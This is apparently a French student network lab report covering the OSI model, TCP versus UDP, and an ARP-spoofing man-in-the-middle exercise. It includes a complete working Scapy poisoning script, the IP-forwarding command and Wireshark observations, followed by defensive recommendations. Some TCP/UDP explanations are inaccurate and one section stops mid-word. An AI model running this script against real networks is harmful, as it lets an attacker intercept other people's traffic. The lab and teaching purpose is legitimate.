


# TP4 - Réseau
Leonardo Picoli - 26/04/2023

## **1. Modèle OSI**

### **1.1 Le modèle OSI en détails**
Le modèle OSI (Open Systems Interconnection) est un modèle de référence utilisé pour décrire la communication de données entre les différents systèmes informatiques. Il est composé de 7 couches, chacune ayant un rôle spécifique. Voici les couches les plus importantes et leur rôle :

1. **Couche physique** (Physical layer):  
Cette couche est responsable de la transmission des bits à travers un canal de communication physique. Elle s'occupe de la transmission des signaux électriques, optiques ou sans fil.

2. **Couche liaison de données** (Data Link layer)  
Cette couche est responsable de la transmission de paquets de données entre les nœuds voisins sur un réseau local (LAN). Elle s'occupe également de la détection et de la correction d'erreurs dans les données transmises. Accès au média et addressage physique (adresse MAC). Ethernet → liens entre nœuds directement connectés

3. **Couche réseau** (Network layer) : Cette couche est responsable du routage des paquets à travers un réseau intermédiaire. Elle s'occupe de l'adressage logique (adresse IP) et de la détermination des meilleurs chemins pour que les paquets atteignent leur destination (liens entre noeuds de réseaux différents).

4. **Couche transport** (Transport layer) : Cette couche est responsable de la gestion de bout en bout de la communication entre les applications sur des systèmes hôtes distincts. Elle s'occupe également de la segmentation et du regroupement des données pour une transmission efficace (protocole TCP).

5. **Couche session** (Session layer) : Cette couche établit, maintient et termine les sessions entre les applications. Elle s'occupe également de la synchronisation et de la récupération des données lors de la reprise après une panne.

6. **Couche présentation** (Presentation layer) : Cette couche est responsable de la traduction, de la compression et du chiffrement des données pour une transmission efficace entre les applications (TLS).

7. **Couche application** (Application layer) : Cette couche fournit des services d'application directement aux utilisateurs, tels que les services de messagerie électronique, de transfert de fichiers et de navigation sur le Web (HTTP).

Voici quelques exemples d'équipements caractéristiques associés à chaque couche du modèle OSI :

**Couche physique**: Câbles, concentrateurs (hubs), répéteurs, cartes réseau, connecteurs, convertisseurs de médias, antennes, etc.

**Couche liaison de données**: Commutateurs (switches), ponts (bridges), points d'accès sans fil (Wireless Access Points - WAPs), cartes réseau, etc.

**Couche réseau**: Routeurs, commutateurs/routeurs (switches/routers), firewall, etc.

**Couche transport**: Passerelles, ports de communication, etc.

**Couche session**: Services d'authentification, de gestion des sessions, etc.

**Couche présentation**: Éditeurs de texte, traducteurs de code, convertisseurs de format, etc.

**Couche application**: Navigateurs web, clients de messagerie, clients de partage de fichiers, etc.

### **1.2 TCP vs UDP**

Une connexion TCP est une connexion orientée connexion entre deux hôtes sur un réseau. TCP est un protocole de transport fiable et garantit que les paquets de données sont envoyés et reçus correctement, même en cas de perte de paquets ou de congestion du réseau. La connexion TCP est établie via un processus en trois étapes appelé "handshake à trois voies", qui se compose des étapes suivantes :

1. L'hôte émetteur envoie un paquet SYN (synchronisation) au destinataire pour demander une connexion.
2. Le destinataire répond avec un paquet SYN-ACK (synchronisation-acquittement) pour indiquer qu'il est prêt à établir une connexion.
3. L'hôte émetteur envoie un paquet ACK (acquittement) pour confirmer que la connexion a été établie avec succès.

Voici un schéma représentant une connexion TCP :



Une connexion UDP, en revanche, est une connexion non orientée connexion entre deux hôtes sur un réseau. UDP est un protocole de transport non fiable et n'assure pas la livraison de paquets de données. Les paquets de données peuvent être perdus ou reçus dans un ordre différent de celui dans lequel ils ont été envoyés. La connexion UDP est établie en envoyant simplement un paquet UDP du client au serveur, sans procédure de connexion spécifique.

Voici un schéma représentant une connexion UDP (vs TCP):


En cas de port TCP inaccessible, lorsque le destinataire ne répond pas avec un paquet SYN-ACK, l'émetteur attend un certain temps avant d'abandonner la tentative de connexion. Le temps d'attente dépend du système d'exploitation et peut varier. Si le port est inaccessible, l'émetteur reçoit une réponse "port fermé" ou "port inatteignable". Si le port est accessible mais aucun service n'écoute, l'émetteur reçoit une réponse "port ouvert" mais pas de réponse du service.

En cas de port UDP inaccessible, le destinataire ne répond pas avec un paquet UDP ACK. L'émetteur n'attend pas de réponse et envoie simplement le paquet UDP. Si le port est inaccessible, le destinataire ne recevra pas le paquet UDP et il sera perdu.

En ce qui concerne la séparation en couches préconisée par le modèle OSI, elle est respectée pour les deux protocoles TCP et UDP. Le modèle OSI définit une hiérarchie de couches de communication, où chaque couche effectue des fonctions spécifiques. TCP et UDP sont des protocoles de transport qui appartiennent à la couche de transport du modèle OSI. Ils utilisent des fonctionnalités des couches inférieures, telles que la couche réseau pour l'adressage IP et la couche physique pour la transmission des données, et fournissent des fonctionnal

## Exploitation des faiblesses du protocole ARP

### Le code man-in-the-middle se trouve aussi dans le fichier [mitm.py](./mitm.py). 

```python
from scapy.all import *
import time

def get_mac(interface, ip):
    trame = Ether() / ARP()
    trame.pdst = ip
    ans, unans = srp(trame, iface=interface)
    ans = ans[0][1]
    return ans.hwsrc

def trick(interface, ip_victim, ip_router):
    trame_router = Ether() / ARP()
    trame_victim = Ether() / ARP()

    mac_victim = get_mac(interface, ip_victim)
    mac_router = get_mac(interface, ip_router)
   
    trame_router.op = "is-at"
    trame_router.dst = mac_router
    trame_router.hwdst = mac_router
    trame_router.pdst = ip_router
    # Par default, on a déjà our mac as source:
    # trame_router.src = bad_mac
    # trame_router.hwsrc = bad_mac
    trame_router.psrc = ip_victim

    trame_victim.op = "is-at"
    trame_victim.dst = mac_victim
    trame_victim.hwdst = mac_victim
    trame_victim.pdst = ip_victim
    # Par default, on a déjà our mac as source:
    # trame_router.src = bad_mac
    # trame_router.hwsrc = bad_mac
    trame_victim.psrc = ip_router

    sendp(trame_victim)
    sendp(trame_router)

def reARP(interface, ip_victim, ip_router):
    trame_router = Ether() / ARP()
    trame_victim = Ether() / ARP()

    mac_victim = get_mac(interface, ip_victim)
    mac_router = get_mac(interface, ip_router)
   
    trame_router.op = "is-at"
    trame_router.src = mac_victim
    trame_router.hwsrc = mac_victim
    trame_router.psrc = ip_victim
    trame_router.dst = mac_router
    trame_router.hwdst = mac_router
    trame_router.pdst = ip_router

    trame_victim.op = "is-at"
    trame_victim.src = mac_router
    trame_victim.hwsrc = mac_router
    trame_victim.psrc = ip_router
    trame_victim.dst = mac_victim
    trame_victim.hwdst = mac_victim
    trame_victim.pdst = ip_victim

    sendp(trame_victim)
    sendp(trame_router)

if __name__ == "__main__":
    for i in range(100):
        trick("eth0", "147.250.8.208", "147.250.9.245")
        time.sleep(5)
```

Pour une meilleure compréhension du flux wireshark et du code, voici la table avec les IPs de tous les dispositives concernés.

| Dispositif | IP |
| ---------- | -- |
| Routeur | 147.250.9.245 |
| Victime | 147.250.8.208 |
| Hacker  | 147.250.9.2   |

Après avoir éxécuté le script et le code ci-dessous: 

`echo 1 > /proc/sys/net/ipv4/ip_forward`

On peut observer que le nouveau MAC du "routeur" vu par la machine de la victime, c'est en fait le MAC de notre machine! Donc le paquet ARP a bien marché !
Et on peut observer e trafic réseau de la victime à partir de Wireshark!

### Observations flux Wireshark

Après avoir éxécuté le script python, on peut voir par l'image ci-dessous, les transférences des paquets ARP on bien marché et sont biens visibles:



1. D'abord, on récupère le MAC Address de la machine de la vicitime: **Who has 147.250.8.208 ?**
2. Après, on récupère le MAC Address du routeur: **Who has 147.250.9.245 ?**
3. Puis on envoie un paquet pour la machine de la victime en indiquant que le routeur a notre (Hacker) MAC Address: **147.250.9.245 is at 08::00::27::ce::e3::cd**
4. Finalement, on envoie un paquet pour le routeur en indiquant que la machine de la victime a notre (Hacker) MAC Address: **147.250.8.208 is at 08::00::27::ce::e3::cd**

Après avoir fait `ping google.com` à partir de la machine de la victime, on peut voir que les paquets bien arrivent sur notre (bad machine) flux Wireshark:


### Récommendations 

Pour améliorer la sécurité d'un système d'information (SI) et se protéger contre une attaque de type Man-in-the-Middle (MITM) qui utilise des paquets ARP falsifiés, voici quelques recommandations :

1. Utiliser des protocoles sécurisés : Pour éviter les interceptions de données, il est essentiel d'utiliser des protocoles de communication sécurisés comme HTTPS, SSL/TLS, SFTP, etc.

2. Chiffrer les données : Le chiffrement des données est une technique de sécurité fondamentale pour éviter les attaques MITM. Il permet de rendre les données illisibles pour les attaquants.

3. Mettre en place des politiques de sécurité : Une politique de sécurité est un ensemble de règles et de procédures visant à protéger les ressources informatiques de l'entreprise. Il est important de mettre en place une politique de sécurité claire pour prévenir les attaques MITM.

4. Utiliser un réseau privé virtuel (VPN) : Un VPN est une solution de sécurité qui permet de chiffrer toutes les données qui transitent entre les différentes entités d'un réseau. Il est recommandé d'utiliser un VPN pour protéger les communications contre les attaques MITM.

5. Surveiller l'état du réseau : La surveillance du réseau permet de détecter les anomalies et les comportements suspects qui pourraient indiquer une attaque MITM en cours.

6. Mettre à jour les équipements : Il est important de maintenir à jour les équipements du réseau (routeurs, switches, etc.) pour bénéficier des derniers correctifs de sécurité.

7. Configurer les équipements de manière sécurisée : La configuration sécurisée des équipements réseau est essentielle pour prévenir les attaques MITM. Il est important de désactiver les protocoles non essentiels et de configurer les accès de manière stricte.